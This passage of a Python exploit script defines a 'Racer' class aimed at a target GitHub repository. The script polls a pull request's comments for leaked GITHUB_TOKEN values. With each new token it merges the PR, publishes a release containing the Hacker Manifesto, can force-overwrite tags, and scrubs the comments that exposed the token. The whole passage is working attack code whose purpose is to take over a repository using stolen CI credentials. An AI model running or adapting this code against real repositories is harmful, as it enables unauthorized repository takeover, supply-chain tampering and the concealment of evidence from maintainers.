        )
        r = self.session.put(url, headers={f"Authorization": f"Bearer {token}"}, timeout=5)
        r.raise_for_status()

    def delete_ref(self, token: str, ref: str):
        url = "https://api.github.com/repos/{owner}/{repo}/git/refs/{ref}".format(
            owner=quote_plus(self.owner),
            repo=quote_plus(self.repo),
            ref=ref,
        )
        r = self.session.delete(url, headers={f"Authorization": f"Bearer {token}"}, timeout=5)
        r.raise_for_status()

    def create_commit_tag(self, token: str, tag_name: str, commit: str, force: bool = False):
        print(f"{'Forcefully tagging' if force else 'Tagging'} commit {commit} as '{tag_name}'")
        if force:
            try:
                self.delete_ref(token, f"tags/{tag_name}")
            except requests.exceptions.HTTPError as e:
                if e.response.status_code == 404:
                    pass
                else:
                    raise e
        url = "https://api.github.com/repos/{owner}/{repo}/git/refs".format(
            owner=quote_plus(self.owner),
            repo=quote_plus(self.repo),
        )
        r = self.session.post(url, headers={f"Authorization": f"Bearer {token}"}, timeout=5, json={
            "ref": f"refs/tags/{tag_name}",
            "sha": commit,
        })
        r.raise_for_status()

    def create_release(self, token: str, contents: bytes, tag: Optional[str] = None,
                       name: str = "Emergency release", body: str = "", filename: str = "release.bin"):
        print(f"Creating release called '{name}' with a file called '{filename}' of {len(contents)} bytes")
        tag = uuid4().hex if tag is None else tag
        url = "https://api.github.com/repos/{owner}/{repo}/releases".format(
            owner=quote_plus(self.owner),
            repo=quote_plus(self.repo),
        )
        r = self.session.post(url, headers={f"Authorization": f"Bearer {token}"}, timeout=5, json={
            "tag_name": tag,
            "name": name,
            "body": body,
        })
        r.raise_for_status()
        # Trim the {?name,label} garbage from the upload_url returned from the API call
        release_upload_url = r.json()["upload_url"].split("{")[0]
        r = self.session.post(release_upload_url, params={"name": filename},
                              headers={
                                  "Content-Type": "Content-Type: application/octet-stream",
                                  "Authorization": f"Bearer {token}"
                              }, data=contents, timeout=5)
        r.raise_for_status()

    def loop(self):
        seen = set()

        # The conscience of a hacker
        try:
            conscience = requests.get(
                "https://archive.org/download/The_Conscience_of_a_Hacker/hackersmanifesto.txt",
                timeout=5).content
        except requests.exceptions.HTTPError:
            conscience = b"Damn kids. They're all alike."

        print(f"[+] Waiting for GITHUB_TOKEN values to appear in #{self.pr}")
        for i in itertools.count(1):
            try:
                comments = self.get_comments()
            except requests.exceptions.HTTPError as e:
                if e.response.status_code == 404:
                    if i % 10 == 0:
                        print(f"[!] Warning: get_comments returned 404. Maybe you haven't submitted the PR yet?")
                    continue
                else:
                    raise e
            for token in self.get_tokens_from_comments(comments):
                if token not in seen:
                    print(f"[^] Found new token: {token}")
                    seen.add(token)
                    try:
                        self.merge_pr(token)
                    except requests.exceptions.HTTPError as e:
                        print(f"Got error: {e}")
                        continue
                    try:
                        self.create_release(token, contents=conscience)
                    except requests.exceptions.HTTPError as e:
                        print(f"Got error: {e}")
                        continue
                    # Re-get comments because the bot tends to edit its own comment, mucking things up
                    comments = self.get_comments()
                    try:
                        self.scrub_comments(comments, token)
                    except requests.exceptions.HTTPError as e:
                        print(f"Got error: {e}")
                        continue
                    print("Done!")
                    return
            if i % 20 == 0:
                print(f"{i} iterations performed")


if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("--owner", help="Owner of target repo", required=True)
    parser.add_argument("--repo", help="Target repo", required=True)
    parser.add_argument("--pr", help="Pull Request number", type=int, required=True)
    parser.add_argument("--pat", help="Personal Access Token (https://github.com/settings/tokens)", required=True)

    args = parser.parse_args()
    racer = Racer(args.owner, args.repo, args.pr, args.pat)
    racer.loop()
```
